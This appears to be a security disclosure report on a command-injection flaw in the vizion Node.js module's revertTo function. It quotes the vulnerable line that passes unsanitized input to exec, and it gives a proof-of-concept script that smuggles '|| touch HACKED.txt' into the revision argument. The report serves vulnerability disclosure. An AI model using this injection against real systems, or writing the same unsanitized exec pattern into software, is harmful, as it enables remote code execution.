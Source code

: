 # Overview

The issue is an `RCE` triggerable via the module.

This is possible because in the https://github.com/keymetrics/vizion/blob/master/lib/git/git.js#L228 line, the `git reset --hard` command is concatenated with a unsanitized input: 

```js
  var command = cliCommand(args.folder, "git reset --hard " + args.revision);
```
The `command` variable is so passed to the `exec` function, declared as:

```js
var exec = require('child_process').exec;
```
This makes possible any attacker to control the `revision` attribute passed as `object` in the `<vizion_object>.revertTo()` function, leading to the `RCE impact`.

# Steps To Reproduce

1. First of all, note you have to set accurately your `git` environment
2. Execute the following commands:
```bash
mkdir vizion # Makes a new directory where initialize *git*
cd vizion
git init
echo "TEST_STRING" > test.txt # Create a file named "test.txt" 
git add test.txt # Adding to the working tree the new file
git commit
```
3. Create a PoC file like this (in the `vizion` directory):

```js
// poc.js
var vizion = require('vizion');
vizion.revertTo({ 
           revision : 'f0a1d45936cf7a3c969e4caba96546fd23255796 || touch HACKED.txt', folder : '.' }, 
           function(err, data) { 
                           console.log(data); 
            });
```
4. Start the `poc.js` file: `node poc.js`
5. A file named `HACKED.txt` will be created {F580132}
